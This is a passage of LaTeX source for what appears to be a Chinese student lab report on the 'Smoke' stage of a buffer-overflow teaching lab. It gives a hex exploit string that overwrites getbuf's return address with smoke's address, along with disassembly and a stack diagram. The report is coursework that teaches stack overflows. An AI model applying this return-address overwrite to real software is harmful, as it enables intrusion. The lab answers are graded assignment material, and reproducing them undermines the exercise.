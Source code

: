 \section{各阶段漏洞攻击原理与方法}
\begin{center}
    每阶段25分，文本10分，分析15分，总分不超过80分
\end{center}

\subsection{Smoke的破解与分析}

\textbf{文本如下：}
\begin{verbatim}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
19 10 40 00 00 00 00 00
\end{verbatim}

\textbf{分析过程：}
\begin{verbatim}
00000000004015d5 <getbuf>:
    4015d5:    48 83 ec 28              sub    $0x28,%rsp
    4015d9:    48 89 e7                 mov    %rsp,%rdi
    4015dc:    e8 f6 fa ff ff           callq  4010d7 <Gets>
    4015e1:    b8 01 00 00 00           mov    $0x1,%eax
    4015e6:    48 83 c4 28              add    $0x28,%rsp
    4015ea:    c3                       retq
\end{verbatim}
从这里我们可以看到getbuf函数的栈相关情况。
\begin{tabular}{|c|c|}
    \hline 
    栈 & 位置 \\ 
    \hline 
    getbuf返回地址(0x00) & rbp \\ 
    \hline 
    (-0x04) & ... \\ 
    \hline 
    ... & ... \\ 
    \hline 
    (-0x28) & buf  \& rsp \\ 
    \hline 
\end{tabular} 

\begin{verbatim}
0000000000401019 <smoke>:
    401019:    48 83 ec 08              sub    $0x8,%rsp
    40101d:    bf cf 26 40 00           mov    $0x4026cf,%edi
    401022:    e8 69 fc ff ff           callq  400c90 <puts@plt>
    401027:    bf 00 00 00 00           mov    $0x0,%edi
    40102c:    e8 ba 06 00 00           callq  4016eb <validate>
    401031:    bf 00 00 00 00           mov    $0x0,%edi
    401036:    e8 c5 fd ff ff           callq  400e00 <exit@plt>
\end{verbatim}

